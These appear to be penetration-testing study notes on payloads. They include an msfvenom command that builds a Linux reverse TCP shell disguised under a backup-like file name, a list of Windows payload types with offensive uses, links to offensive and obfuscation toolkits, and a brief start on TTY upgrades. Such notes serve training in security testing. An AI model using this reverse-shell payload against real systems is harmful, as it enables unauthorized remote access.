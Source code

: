 - **MSFvenom**

  ```bash
  # List payloads
  msfvenom -l payloads
  
  # Build a stageless payload (-f to specify the format)
  msfvenom -p linux/x64/shell_reverse_tcp LHOST= LPORT=444 -f elf > createbackup.elf
  ```

  

### Windows 

#### Types of payloads

- [DLLs](https://docs.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library): library file to provide shared code and data that can be used by different programs at once. Can elevate our privileges to SYSTEM and/or bypass User  Account Controls.

- [Batch](https://commandwindows.com/batch.htm): text-based DOS scripts (`.bat` extension) utilized by system administrators to complete multiple tasks through the command-line interpreter.  We can use batch files to run commands on the host in an automated fashion. 

- [VBS](https://www.guru99.com/introduction-to-vbscript.html): scripting language typically used as a client-side scripting language  in webservers to enable dynamic web pages. Now outdated, it is used in phishing attacks.

- [MSI](https://docs.microsoft.com/en-us/windows/win32/msi/windows-installer-file-extensions) When attempting to install a new application, the installer will look for the `.msi` file. Once we loaded the payload, we can run `msiexec` to execute our file.

- [Powershell](https://docs.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.1): shell environment and scripting language.

#### Resources

- MSFVenom
- [Alternative to metasploit](https://github.com/its-a-feature/Mythic)
- [PayloafAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Nishang ](https://github.com/samratashok/nishang) is a framework collection of Offensive PowerShell implants and  scripts. 
- [Darkarmour](https://github.com/bats3c/darkarmour) is a tool to generate and utilize obfuscated binaries for use against Windows hosts.
- [Impacket](https://github.com/SecureAuthCorp/impacket) is a toolset built-in Python that provides us a way to interact with  network protocols directly. Some of the most exciting tools we care  about in Impacket deal with `psexec`, `smbclient`, `wmi`, Kerberos, and the ability to stand up an SMB server.

### LinuxExploit



### TTY Upgrade

Once we connect to a shell through Netcat, we will notice that we can  only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the  command history. To be able to do that, we will need to upgrade our TTY. This can be achieved by mapping our terminal TTY with the remote TTY.
